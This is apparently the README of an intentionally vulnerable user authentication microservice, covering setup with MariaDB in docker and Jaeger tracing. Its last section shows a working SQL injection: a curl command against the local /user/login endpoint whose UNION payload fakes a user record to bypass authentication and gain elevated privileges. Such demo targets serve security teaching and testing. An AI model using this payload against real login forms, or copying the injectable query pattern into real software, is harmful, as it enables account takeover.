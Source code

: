 # User Auth Service

To install all dependencies with yarn (`npm install -g yarn`) run:

```
yarn install
```

This user-auth-service requires a running relational database MariaDB has been used for testing.
To run it locally using docker, you can run:

```bash
docker run --detach --name user-auth-db \
  --env MARIADB_ROOT_PASSWORD=mariadb-root-password \
  --env MARIADB_DATABASE=my_database \
   -p 3306:3306 \
   mariadb:latest
```
And then update the environment variables for the user-auth-service to fit:
```bash
export MARIADB_PASSWORD=mariadb-root-password
export MARIADB_SERVICE=$(docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' user-auth-db)
```

It is also recommended having a Jaeger agent running for reporting traces.

Adjust the following environment variables if you are running the two
other microservices on different ports/hosts:

| Name                 | Example Value         | Description                                                  |
|----------------------|-----------------------|--------------------------------------------------------------|
| SERVER_PORT          | 9091                  | The port that the server will run on                         |
| JAEGER_AGENT_HOST    | localhost             | Change to hostname/IP of your Jaeger agent                   |
| JAEGER_SERVICE_NAME  | user-auth-service     | Name that will be used for the service in the Jaeger traces  |
| JAEGER_SAMPLER_TYPE  | const                 | (optional) Set to const to get all traces                    |
| JAEGER_SAMPLER_PARAM | 1                     | (optional) Set to 1 while sampler is const to get all traces |
| MARIADB_SERVICE      | localhost             | Address of MariaDB database                                  |
| MARIADB_PASSWORD     | mariadb-root-password | Password of MariaDB database                                 |

## Running

To run the user-auth-service use:
```
yarn start
```

When developing, to have the server auto-restart on change of a file and use local .env variable, use:

```
yarn run dev
```

### Exploiting the sql injection vulnerability

The `/user/login` endpoint is vulnerable to SQL injection attacks. To exploit this vulnerability pass the injection in the `username` parameter.

This example tries to get elevated privileges while bypassing the user authentication. We ignore the actual query result and return a fake
record, which is then used to query matching roles and generate a token with more privileges then we actually have.

`curl -vvv -H 'Content-Type: application/json' -d '{ "username":"\" OR 1 = 0 UNION ALL SELECT \"user\", \"$2b$10$y5LKMIUxQO8B0CllON63UunVV3xEdRxfHQ3Ocy1SUd6fbxgFxJe1u\", 1  FROM DUAL#","password":"user"}' -X POST  http://127.0.0.1:9091/user/login`
